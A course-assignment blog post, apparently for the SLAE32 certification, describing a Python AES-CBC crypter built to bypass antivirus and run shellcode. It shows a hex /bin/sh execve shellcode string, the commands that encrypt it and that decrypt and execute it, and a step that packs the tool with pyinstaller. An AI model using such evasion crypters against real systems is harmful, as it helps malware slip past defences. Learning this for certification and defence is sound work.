 ```yaml
---
layout: post
title: SLAE 7 - Custom crypter
---
```




The guide for this assignment is:

- Create a custom crypter like the one shown in the "crypters" video

- Free to use any existing encryption schema

- Can use any programming language

Link: [https://github.com/ricardojoserf/slae32/tree/master/a7_Custom_Crypter](https://github.com/ricardojoserf/slae32/tree/master/a7_Custom_Crypter)

---------------------------------------------------

## Motivation

The motivation in this last assignment is similar to the one in the Custom encoder and Polymorphic code, to be able to bypass AVs and execute the desired shellcode. In this assignment the encryption chosen is AES-CBC and the programming language is Python after finding out how to execute the shellcode with it and create a binary file from the Python code.


## Usage

- '-k', '--aes_key': *AES key used*.

- '-e', '--encrypt': *Shellcode to encrypt*.

- '-d', '--decrypt': *Encrypted shellcode to decrypt*.

- '-x', '--execute': *Execute the shellcode after decrypting or not*.


### Encryption

```bash
python main.py -e "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd" -k "ricardoricardo11"
```

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a7_Custom_Crypter/images/1.png)


### Decryption

```bash
python main.py -d 7L8lgzzXoM1KnsFbIFOPgY3PPx8K5aM5IT2HC8ULBrhcYvbTr4/ItEVN6DgDuJ7TY0d9isE2IuHTC3hWMa4lzkbc6toFTdOnhzc9v/YwqRe62L+dqZ8XQWFk5VHl9R+Dr7ctq2BCAqmozxKeDGLd7iojztY0fTpcUy8gCu/Z5Rf4f4L5tsBna8epwgmBr6Op0/4S44ZEnbfiIH/QtEYUqw== -k "ricardoricardo11"  -x
```

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a7_Custom_Crypter/images/2.png)

### Binary

Finally, a binary is created using the program *pyinstaller* with the option -F, which has the same functionality than the *main.py* file:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a7_Custom_Crypter/images/3.png)

---------------------------------------------------


## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433
